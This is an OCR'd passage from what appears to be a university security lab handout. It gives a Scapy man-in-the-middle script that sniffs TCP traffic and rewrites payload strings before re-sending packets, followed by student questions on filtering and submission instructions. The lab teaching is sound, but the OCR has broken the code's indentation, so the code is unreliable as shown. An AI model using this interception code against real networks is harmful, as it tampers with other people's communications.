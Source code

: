 Listing 1: Sample code:mitmsample.py
#!/usr/bin/env python
from scapy.all import *

def spoof_pkt(pkt):
newpkt = IP(bytes(pkt[IP]))
del(newpkt.chksum)
del(newpkt[TCP].payload)
del(newpkt[TCP].chksum)

```
if pkt[TCP].payload:
data = pkt[TCP].payload.load
print("*** %s, length: %d" % (data, len(data)))
```
```
# Replace a pattern
newdata = data.replace(b’seedlabs’, b’AAAAAAAA’)
```
```
send(newpkt/newdata)
else:
send(newpkt)
```
f = ’tcp’
pkt = sniff(iface=’eth0’, filter=f, prn=spoof_pkt)

It should be noted that the code above captures all the TCP packets, including the one generated by the
program itself. That is undesirable, as it will affect the performance. Students needs to change the filter, so
it does not capture its own packets.

Questions. After you have succeeded in the attack, please answer the following questions:

- Question 4: In your MITM program, you only need to capture the traffics in one direction. Please
    indicate which direction, and explain why.
- Question 5: In the MITM program, when you capture thenctraffics from A (10.9.0.5), you can
    use A’s IP address or MAC address in the filter. One of the choices is not good and is going to create
    issues, even though both choices may work. Please try both, and use your experiment results to show
    which choice is the correct one, and please explain your conclusion.

## 5 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.



